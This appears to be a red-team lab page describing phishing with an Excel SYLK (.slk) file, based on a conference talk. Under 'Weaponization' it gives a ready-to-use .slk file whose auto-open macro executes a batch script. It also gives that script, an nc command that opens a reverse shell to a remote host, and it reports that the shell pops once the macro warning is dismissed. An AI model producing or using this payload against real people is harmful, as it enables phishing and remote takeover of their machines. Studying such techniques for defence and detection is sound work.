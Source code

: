 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked) - see below references for more info.

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code-tabs %}
{% code-tabs-item title="demo.slk" %}
```csharp
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../../.gitbook/assets/slk-csv.png)

## References

{% embed url="https://www.youtube.com/watch?v=xY2DIRfqNvA" %}

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed url="https://twitter.com/StanHacked/status/1049047727403937795" %}



